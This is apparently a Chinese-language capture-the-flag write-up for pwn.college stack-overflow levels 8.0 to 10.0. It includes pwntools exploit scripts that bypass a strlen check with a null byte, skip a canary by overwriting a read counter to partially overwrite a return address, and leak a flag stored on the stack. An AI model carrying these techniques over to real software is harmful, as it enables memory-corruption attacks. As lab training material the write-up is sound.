 ### 8.0

在 7.0 的基础上，会用 `strlen` 检查 `buf` 长度，直接 0 字节截断即可。

```python
win = 0x14f
payload = b'\x00'*8 + b'a'*128 + p16(win)

while True:
    p = process(binary)
    s(payload)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```

### 9.0

本题需要覆盖读计数器，从而跳过 canary 写入返回地址，题目给了读计数器的实现：

```c
while (n < size) {
      n += read(0, input + n, 1);
}
```

还给了 `n` 的偏移量 36 和返回地址偏移量 56，因此根据上述实现将 `n` 覆盖为 55，下一次循环就可以写返回地址的最低字节了。由于要写最低两字节，因此 `size` 设置为 58 即可，和 payload 长度无关。

```python
win = 0xc0a
payload = b'a'*36+p8(56-1)+p16(win)
size = 56+2

while True:
    p = process(binary)
    s(payload, size)

    res = p.recvall()
    if b'pwn.college{' in res:
        print(res[-100:])
        break
```

### 10.0

flag 在栈上，距离输入 73 字节的地方，小于输入到 rbp 的距离，因此本题不需要溢出，也不用管 canary 和 ASLR，只需要填充 73 个非零字节，最后打印时就会顺带打印出后面的 flag。

```python
payload = b'a'*73
s(payload)
```
